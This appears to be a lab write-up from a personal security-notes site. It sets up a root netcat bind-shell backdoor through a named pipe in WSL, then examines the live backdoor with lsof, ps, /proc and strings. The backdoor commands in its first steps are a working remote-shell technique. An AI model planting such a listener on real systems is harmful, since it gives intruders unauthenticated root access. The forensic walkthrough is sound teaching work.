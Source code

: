 ```yaml
---
layout: default
---
```

[Back](./)


## FIFO Backdoor (First In First Out)
Running 3 WSL linux sessions
The first will be where we run the backdoor.
The second will be where we connect to it.
The third is where we will be running our analysis.

**Machine 1**
1. Elevate to root
`sudo su`
2. Create a fifi backpipe
`mknod backpipe p`
3. Start the backdoor
`/bin/bash 0<backpipe | nc -l 2222 1>backpipe`
> In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session. It then takes the output of the bash session and puts it back into the netcat listener.

**Machine 2**

Connect to this backdoor
1. Get IP address info `ip add`
2. Run netcat on the IP + Port `nc 172.20.146.40 2222`

**Machine 1**

Open another tab on the original machine to analyse the backdoor connection using
`lsof -i -P`

|Flag       |Define       |
| ----  | ----  |
|-i       |Looking at the open Internet connections.|
|-P       |Telling lsof to not guess what the service is on the ports. Just give us the port number.|
|-p       |List open files associated with the listed process ID.|

Output:
```yml
COMMAND    PID            USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nc        1757            root    3u  IPv4  48020      0t0  TCP *:2222 (LISTEN)
nc        1757            root    4u  IPv4  48021      0t0  TCP 172.20.146.40:2222->172.20.146.40:45500 (ESTABLISHED)
```

List open files associated with the listed process ID.
`lsof -p 1757`
Output:
```
COMMAND  PID USER   FD      TYPE DEVICE SIZE/OFF NODE NAME
nc      1757 root  cwd   unknown                      /proc/1757/cwd (readlink: Permission denied)
nc      1757 root  rtd   unknown                      /proc/1757/root (readlink: Permission denied)
nc      1757 root  txt   unknown                      /proc/1757/exe (readlink: Permission denied)
nc      1757 root NOFD                                /proc/1757/fd (opendir: Permission denied)
```

Needed root permissions so i ran it with sudo
`sudo lsof -p 1757`
Output::
```
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF  NODE NAME
nc      1757 root  cwd    DIR   8,32     4096 40961 /root
nc      1757 root  rtd    DIR   8,32     4096     2 /
nc      1757 root  txt    REG   8,32    39560  1590 /usr/bin/nc.openbsd
nc      1757 root  mem    REG   8,32    47472  6689 /usr/lib/x86_64-linux-gnu/libmd.so.0.0.5
nc      1757 root  mem    REG   8,32  2216304  6521 /usr/lib/x86_64-linux-gnu/libc.so.6
nc      1757 root  mem    REG   8,32    68552  6801 /usr/lib/x86_64-linux-gnu/libresolv.so.2
nc      1757 root  mem    REG   8,32    89096  6517 /usr/lib/x86_64-linux-gnu/libbsd.so.0.11.5
nc      1757 root  mem    REG   8,32   240936  6325 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
nc      1757 root    0r  FIFO   0,12      0t0 51879 pipe
nc      1757 root    1w  FIFO   8,32      0t0  6659 /root/backpipe
nc      1757 root    2u   CHR  136,2      0t0     5 /dev/pts/2
nc      1757 root    3u  IPv4  48020      0t0   TCP *:2222 (LISTEN)
nc      1757 root    4u  IPv4  48021      0t0   TCP 172.20.146.40:2222->172.20.146.40:45500 (ESTABLISHED)
```

List all of the proccesses on the system for all users.
`ps aux`
Output:
```
bandit      1657  0.0  0.0   6080  5064 pts/3    Ss   22:01   0:00 -bash
root        1755  0.0  0.0   4780  3196 pts/2    S+   23:54   0:00 bash /home/bandit/fifo-backdoor.sh
root        1756  0.0  0.0   4912  3624 pts/2    S+   23:54   0:00 /bin/bash
**root        1757  0.0  0.0   3532  1220 pts/2    S+   23:54   0:00 nc -l 2222**
bandit      1769  0.0  0.0   7480  3244 pts/3    R+   23:55   0:00 ps aux
```

>-   The output includes information such as the process ID (PID), the user who started the process (USER), the CPU and memory usage, and the command that initiated the process (COMMAND).
>-   The command displays both active processes and those in a "zombie" or "defunct" state.
>-   "ps aux" gives a comprehensive view of the system's current process landscape and can be useful for monitoring system activity, identifying resource-intensive processes, and troubleshooting issues.

Change into the proc directory for that pid.
`cd /proc/1757`
`ls`
Output:
```
ls: cannot read symbolic link 'cwd': Permission denied
ls: cannot read symbolic link 'root': Permission denied
ls: cannot read symbolic link 'exe': Permission denied
arch_status  comm             fd         maps        ns             projid_map  smaps_rollup  task
attr         coredump_filter  fdinfo     mem         oom_adj        root        stack         timens_offsets
auxv         cpuset           gid_map    mountinfo   oom_score      sched       stat          timers
cgroup       cwd              io         mounts      oom_score_adj  schedstat   statm         timerslack_ns
clear_refs   environ          limits     mountstats  pagemap        setgroups   status        uid_map
cmdline      exe              map_files  net         personality    smaps       syscall       wchan
```

> **/proc**  contains a virtual file system that provides information about running processes it does **not exist on the drive.** It allows us to see data associated with the various processes **directly**. This can be very usesfull as it allows us to **dig into the memory of a process that is currently running on a suspect system.**

Identigy exactly what the program doing
`strings ./exe`
Output:
```
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s sourceaddr] [-T keyword] [-V rtable] [-W recvlimit]
          [-w timeout] [-X proxy_protocol] [-x proxy_address[:port]]
          [destination] [port]
        Command Summary:
                -4              Use IPv4
                -6              Use IPv6
                -b              Allow broadcast
                -C              Send CRLF as line-ending
```
> Now we can see the actual usage information for netcat

> We can run strings on the exe in this directory. This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments. We use this all the time to attempt to identify what exactly a program is doing.
